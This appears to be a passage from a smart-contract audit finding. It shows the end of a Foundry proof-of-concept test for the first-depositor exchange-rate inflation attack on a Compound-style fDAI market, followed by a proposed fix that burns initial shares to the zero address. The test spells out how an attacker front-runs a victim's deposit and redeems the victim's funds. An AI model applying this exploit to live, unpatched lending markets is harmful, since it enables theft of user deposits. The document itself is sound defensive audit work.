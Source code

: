 ```solidity

    vm.prank(bob);
    DAI.approve(address(fDAI), type(uint256).max);

    // Front-running
    vm.prank(attacker);
    DAI.transfer(address(fDAI), 1_000_000e18);
    assertEq(fDAI.getCash(), 1_000_000e18 + 2e8);

    vm.prank(bob);
    fDAI.mint(1_000_000e18);
    assertEq(fDAI.balanceOf(bob), 0);
    assertEq(fDAI.totalSupply(), 1);

    vm.prank(attacker);
    fDAI.redeem(1);
    assertEq(DAI.balanceOf(attacker), 3_000_000e18);
    assertEq(fDAI.totalSupply(), 0);
}

```

### The Fix

The fix to prevent this issue would be to enforce a minimum deposit that cannot be withdrawn. This can be done by minting a small amount of CToken units to `0x00` address on the first deposit.

```solidity
function mintFresh(address minter, uint mintAmount) internal {
    // ...
    Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});

    uint actualMintAmount = doTransferIn(minter, mintAmount);

    uint mintTokens = div_(actualMintAmount, exchangeRate);

    /// THE FIX
    if (totalSupply == 0) {
        totalSupply = 1000;
        accountTokens[address(0)] = 1000;
        mintTokens -= 1000;
    }

    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
    // ...
}
```

Instead of a fixed `1000` value an admin controlled parameterized value can also be used to control the burn amount on a per CToken basis.
